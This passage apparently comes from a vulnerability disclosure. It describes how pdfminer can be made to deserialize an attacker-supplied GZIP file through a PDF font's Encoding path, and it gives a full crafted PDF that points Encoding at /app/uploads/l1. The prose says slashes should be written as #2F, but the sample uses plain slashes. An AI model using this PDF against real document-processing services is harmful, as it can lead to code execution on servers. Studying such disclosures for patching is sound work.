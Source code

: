 Define the PDF Font object key fields well: Type = Type0, Subtype = CIDFontType0 or CIDFontType2, Encoding = absolute path to GZIP file. Additionally, the `/` in the absolute path needs to be replaced with `#2F`, and using extract_pages()/extract_text() to operate on the PDF file, Pdfminer will read the GZIP content and deserialize it
PDF format exploitation example

```
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj

2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj

3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 5 0 R >> >> /Contents 4 0 R >>
endobj

4 0 obj
<< /Length 22 >>
stream
BT /F1 12 Tf (A) Tj ET
endstream
endobj

5 0 obj
<< /Type /Font /Subtype /Type0 /BaseFont /Identity-H /Encoding /app/uploads/l1 /DescendantFonts [6 0 R] >>
endobj

6 0 obj
<< /Type /Font /Subtype /CIDFontType2 /BaseFont /Dummy /CIDSystemInfo << /Registry (Adobe) /Ordering (Identity) /Supplement 0 >> >>
endobj

xref
0 7
0000000000 65535 f
0000000010 00000 n
0000000077 00000 n
0000000176 00000 n
0000000273 00000 n
0000000325 00000 n
0000000375 00000 n
trailer
<< /Size 7 /Root 1 0 R >>
startxref
410
%%EOF
```
